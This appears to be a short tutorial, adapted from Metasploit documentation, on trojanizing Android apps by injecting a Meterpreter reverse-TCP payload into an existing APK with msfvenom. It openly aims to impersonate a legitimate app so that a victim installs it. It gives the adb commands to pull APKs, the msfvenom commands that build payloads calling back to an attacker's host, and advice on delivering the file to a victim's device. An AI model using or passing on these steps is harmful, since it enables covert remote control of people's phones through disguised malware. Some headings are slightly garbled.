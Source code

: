 You can inject the Android Meterpreter into an existing APK using msfvenom. This
will allow you to impersonate an existing application, which may make it easier 
to convince your victim to install the APK.

## Vulnerable An Existing Application

It should be possible to inject Meterpreter into any APK, however some applications
have complex resource structures which may not work with `apktool`.
Additionally some applications have security measures that prevent the application
from working as expected once it has been modified.

## Create Default Metasploit Android Application

It is preferred to use an existing application; however, if you don't want to use an existing
application you can create a default metasploit android application.

**Finding APKs**

There are many websites that provide standalone APK that can be downloaded, e.g:
APKPure, APKMirror, RAW APK.
You can also build a simple application yourself with Android Studio.

Additionally you can pull APKs from a device connected via ADB:

```
$ adb shell pm list packages | grep app
package:com.existing.app
$ adb shell pm path com.existing.app
package:/data/app/com.existing.app-1/base.apk
$ adb pull /data/app/com.existing.app-1/base.apk com.existing.apk
[100%] /data/app/com.existing.app-1/base.apk
```

## Requirements
 
APK Injection (as opposed to generating a single APK payload) requires a few tools
to be present on your command line already:

* [Java](https://www.oracle.com/java/technologies/downloads/) - Used for building/editing APK
* [Apktool](https://ibotpeaches.github.io/Apktool/) - Used for rebuilding the APK
* [keytool](https://docs.oracle.com/javase/8/docs/technotes/tools/unix/keytool.html) - To create and extract signing certificates
* [jarsigner](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html) - To re-sign the APK

Installing these tools (if they are not installed already) will depend on your OS.
Apktool can be installed manually or automatically (e.g `brew install apktool` OR `apt install apktool`).
keytool and jarsigner can be installed by installing the appropriate JDK.

## Inject Payload Into An Existing APK File

Use:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

## Create Meterpreter APK File

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```
## Sending apk to other Devices:

There are many method to send APK to victim's device but one of the easiest methods is using a web server.

Next, start an Android device. Upload the APK, execute it and run it, as you would with
a [normal Android meterpreter APK](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md).


